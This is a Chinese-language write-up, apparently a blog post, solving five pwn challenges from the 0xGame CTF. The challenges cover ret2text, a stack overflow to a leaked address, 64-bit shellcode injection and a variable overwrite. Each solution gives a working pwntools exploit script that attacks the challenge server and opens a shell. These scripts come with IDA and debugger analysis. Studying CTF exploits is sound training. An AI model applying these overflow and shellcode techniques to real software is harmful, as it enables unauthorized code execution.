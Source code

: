 ```yaml
---
title: Pwn_0xGame_01
categories: 
    - 比赛WriteUp
    - 0xGame
---
```

# Pwn_0xGame_01
<!--more-->

## 1.欢迎来到0xGame平台
`nc`出flag

## 2.帮我取一个题目名称
ret2text
打开IDA分析
main函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018162746427.png#pic_center)

跟进
第二个函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018162919579.png#pic_center)

s栈大小为20h=32
函数最后return read了s
所以很好写了
因为是64位程序，后面再加上8个字符

```python
payload = 'a' * (0x20+8)
```
Shift+F12发现/bin/sh

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018163358221.png#pic_center)


exp：

```python
from pwn import* 
p = remote('39.101.210.214 ',10002) 
payload = 'a' * (0x20+8) + p64(0x401172)
p.sendline(payload) 
p.interactive()
```

## 3.easy_stack 
文件
easy_stack.txt：

```python
> ────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────
> EAX  0xffffcff0 ◂— 0x0
> EBX  0x56558fb8 ◂— 0x3ec0
> ECX  0xffffffff
> EDX  0xffffffff
> EDI  0xf7fa7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1dfd6c
> ESI  0xf7fa7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1dfd6c
> EBP  0xffffd078 —▸ 0xffffd088 ◂— 0x0
> ESP  0xffffcfe0 ◂— 0x0
> EIP  0x56556273 —▸ 0xfffdb8e8 ◂— 0x0
>─────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────
> ► 0x56556273    call   read@plt <0x56556030>
>   0x56556278    add    esp, 0x10
>   0x5655627b    nop    
>   0x5655627c    mov    ebx, dword ptr [ebp - 4]
>   0x5655627f    leave  
>   0x56556280    ret    
>──────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────
>00:0000│ esp  0xffffcfe0 ◂— 0x0
>01:0004│      0xffffcfe4 —▸ 0xffffcff0 ◂— 0x0
>02:0008│      0xffffcfe8 ◂— 0x100
>03:000c│      0xffffcfec —▸ 0x56556234 ◂— 0x2d84c381
>04:0010│ eax  0xffffcff0 ◂— 0x0
>... ↓
```

► 0x56556273    call   read@plt <0x56556030>
调用了read函数，再看看read函数中的三个参数
	
	read (fd, char *buf , count)
fd：文件描述符（文件指针） //fd写0,表示标准输入

buf：指向内存的指针 			//也就是把数据写入的起始地址

count：读取的长度

再结合文件中

```
> 00:0000│ esp  0xffffcfe0 ◂— 0x0 
> 01:0004│      0xffffcfe4 —▸ 0xffffcff0◂— 0x0 
> 02:0008│      0xffffcfe8 ◂— 0x100
```

然后我们再观察ebp和eax的值

```
> EAX  0xffffcff0 ◂— 0x0
> EBP  0xffffd078 —▸ 0xffffd088 ◂— 0x0
```

因为通常返回地址是存在ebp下，所以计算一下偏移量 0xffffd078 - 0xffffcff0 = 0x88
read读取的数据长度是0x100
0x88 < 0x100 
所以存在溢出
nc连接会回显个地址，并且这个地址是随机的

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018193434919.png#pic_center)

我们可以接收这个地址并让程序执行它
exp：

```python

from pwn import* 
p = remote('39.101.210.214',10008) 
p.recvuntil('magic_address ') 
shell = int(p.recv(10),16) 
p.send('a' * (0x88+4) + p32(shell)) 
p.interactive()
```
## 4.该怎么起名呢

### shellcode

题目让我们执行shellcode，但程序是64位的，pwntools生成的shellcode是32位的，所以我们需要设置架构
context.arch='AMD64' ，否则有可能会报错

再看IDA

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201019195422415.png#pic_center)

关键的在下面的buf+32

所以我们需要填充32个字符之后再送出shellcode

生成 shellcode

> asm(shellcraft.sh())


运行一下文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201019200641989.png#pic_center)

需要在'shellcode'之后再发送payload

所以要recvuntil('shellcode')

exp：

```python
from pwn import* 
context.arch = 'AMD64' 
p = remote('39.101.210.214',10003)
payload = 'a' * 32 + asm(shellcraft.sh())
p.recvuntil('shellcode')
p.sendline(payload)
p.interactive()
```
## 5.variable_coverage 
### 变量覆盖

IDA分析下

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201019205534671.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

程序读取%lld 一个longlong的数，它的长度为8个字节
后面判断v5等于0x2333后会调用system函数
构造payload = 0x233300000000
再看栈

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201019210240376.png#pic_center)

4个字节的长度刚好是0x 0000 2333 0000 0000
也可以直接写0x233300000000，系统会自动填充前面的4个0，因为这是16进制的数

exp：

```python
from pwn import* 

p = remote('39.101.210.214',10007) 

payload =  str(0x233300000000) 

p.sendline(payload)

p.interactive()

```
